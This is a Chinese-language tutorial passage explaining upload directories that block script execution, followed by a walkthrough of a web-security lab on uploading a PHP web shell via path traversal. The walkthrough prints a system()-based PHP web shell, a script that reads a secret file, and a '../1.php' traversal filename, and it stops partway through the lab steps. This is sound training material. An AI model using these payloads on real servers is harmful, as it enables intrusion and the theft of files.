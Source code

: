 


---


> 
<h3>3、防止在用户可访问的目录中执行文件</h3>
1、虽然首先防止危险的文件类型被上传显然更好，但第二道防线是阻止服务器执行任何从网络上溜走的脚本。
<hr/>
2、作为预防措施，服务器通常只运行那些MIME类型被显式配置为可执行的脚本。否则，它们可能只返回某种错误消息，或者在某些情况下，将文件的内容作为纯文本提供：
<pre><code>GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com


HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

&lt;?php echo system($_GET['command']); ?&gt;</code></pre>
<hr/>
3、这种行为可能会提供一种泄漏源代码的方法，但它会使任何创建web shell的尝试无效
<hr/>
4、这种配置通常因目录而异。用户提供的文件上载到的目录可能比文件系统上其他位置（假定最终用户无法访问）具有更严格的控制。如果能找到一种方法将脚本上载到不应该包含用户提供的文件的不同目录，那么服务器最终可能会执行您的脚本
5、还应该注意到，即使可能将所有请求发送到同一个域名，这通常指向某种反向代理服务器，如负载平衡器。请求通常由其他服务器在后台处理，这些服务器的配置也可能有所不同。 
<hr/>
6、涉及实验：<br/> 实验3：经由路径遍历的Web外壳上载


---


---


> 
<h3>实验3：经由路径遍历的Web外壳上载</h3>
信息：
本实验包含易受攻击的图像上载函数。服务器配置为阻止执行用户提供的文件，但利用次要漏洞可以绕过此限制。
要完成实验，请上传一个基本的PHP Web shell，并使用它来过滤文件/home/carlos/secret的内容并提交<br/> 已有账号：wiener:peter
<hr/>
part1:
登录并上传图像作为您的头像，然后返回帐户页面
电脑上，创建一个php文件，其中包含一个用于获取Carlos秘密内容的脚本。
<pre><code>例如：
&lt;?php echo file_get_contents('/home/carlos/secret'); ?&gt;</code></pre>



虽然上传成功，但服务器没有执行脚本并返回输出，而是以纯文本形式返回PHP文件的内容


<hr/>
part2:
在Burp的代理历史记录中，找到用于提交文件上传的POST/my-account/avatar请求，并将其发送到Burp Repeater
<pre><code>找到与PHP文件相关的请求主体部分。在Content-Disposition标头中，更改文件名以包含目录遍历序列：
Content-Disposition: form-data; name="avatar"; filename="../1.php"</code></pre>
注意响应显示文件avatars/1.php已经上传。这表明服务器正在从文件名中剥离目录遍历序列
